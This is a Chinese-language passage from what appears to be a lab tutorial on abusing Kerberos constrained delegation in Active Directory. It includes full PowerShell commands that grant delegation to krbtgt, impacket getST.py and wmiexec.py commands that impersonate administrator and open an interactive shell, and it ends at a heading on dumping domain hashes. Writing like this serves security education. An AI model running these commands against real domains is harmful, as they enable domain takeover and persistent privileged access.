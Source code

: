 ![](https://gitee.com/fuli009/images/raw/master/public/20210804091120.png)

###  **TGS-REQ**

win7用户拿到了administrator的ST1票据后，win7带上这张 **可转发** 的访问自身服务的票据 ，用上S4U2Proxy协议，
**以administrator用户的名义请求一张访问WIN-KONG的CIFS服务的ST2票据**

![]()

###  **TGS-REP**

TGS返回以administrator用户访问WIN-
KONG的CIFS服务的票据，也就是得到了TGS_Administrator@hiro.com@HIRO.COM_cifs~WIN-
KONG.hiro.com@HIRO.COM.kirbi

![](https://gitee.com/fuli009/images/raw/master/public/20210804091121.png)

通过流程可以看出， **第一步生成的可转发的ST1只是为了请求第二步以administrator用的名义请求一张访问WIN-
KONG的CIFS服务的ST2票据** 。

* * *

###  **利用约束委派权限维持**

 **通过约束委派生成黄金票据**

`TGT由krbtgt Hash加密，如果能通过委派krbtgt服务，那么就能伪造任意用户的TGT了。`

由于krbtgt默认是禁用的，所以无法使用页面添加它的SPN。

 **域控通过powershell添加win7到krbtgt的约束委派：**

`powershell -exec bypass`

`Import-Module ActiveDirectory`

`$user = Get-ADUser win7` （win7为设置为约束委派的服务账号）

`Set-ADObject $user -Add @{ "msDS-AllowedToDelegateTo" = @("krbtgt/hiro.com")
}`

![](https://gitee.com/fuli009/images/raw/master/public/20210804091123.png)

 **利用impacket套件攻击**

`伪造administrator的TGT`

`python3 getST.py -dc-ip 192.168.228.10 -spn krbtgt/hiro.com -impersonate
administrator hiro.com/win7:123456QWE.`

`export KRB5CCNAME=administrator.ccache`

用wmiexec弹出一个权限为administrator交互式的shell

`python3 wmiexec.py -no-pass -k administrator@WIN-KONG.hiro.com -dc-ip
192.168.228.10`

 **导出域内哈希**
